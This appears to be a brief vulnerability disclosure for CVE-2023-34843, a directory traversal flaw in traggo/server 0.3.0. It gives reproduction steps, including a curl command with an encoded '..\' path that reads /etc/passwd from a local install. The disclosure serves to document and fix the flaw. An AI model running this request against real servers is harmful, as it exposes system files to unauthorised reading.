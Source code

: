 # CVE-2023-34843

traggo/server version 0.3.0 is vulnerable to directory traversal.

# Steps to reproduce:

    Setup traggo/server on your endpoint/server. https://traggo.net/install/

    Make a GET request to the following URL. curl -X GET http://localhost:3030/static/..%5c..%5c..%5c..%5cetc/passwd

    View contents of /etc/passwd
